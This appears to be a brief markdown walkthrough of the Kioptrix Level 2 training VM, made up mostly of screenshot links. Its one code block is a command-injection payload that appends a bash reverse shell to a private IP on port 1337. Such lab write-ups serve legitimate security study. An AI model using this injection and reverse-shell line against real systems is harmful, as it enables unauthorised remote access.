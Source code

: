 # Kioptrix_Lv2



![image-20200614202318955](assets/Kioptnix_Lv2.assets/image-20200614202318955.png)



![image-20200614202646066](assets/Kioptnix_Lv2.assets/image-20200614202646066.png)







```bash
127.0.0.1;bash -i >& /dev/tcp/192.168.43.66/1337 0>&1
```

![image-20200614205929661](assets/Kioptnix_Lv2.assets/image-20200614205929661.png)

![image-20200614211009788](assets/Kioptnix_Lv2.assets/image-20200614211009788.png)

![image-20200614210520008](assets/Kioptnix_Lv2.assets/image-20200614210520008.png)

![image-20200614211309399](assets/Kioptnix_Lv2.assets/image-20200614211309399.png)

![image-20200614211354567](assets/Kioptnix_Lv2.assets/image-20200614211354567.png)


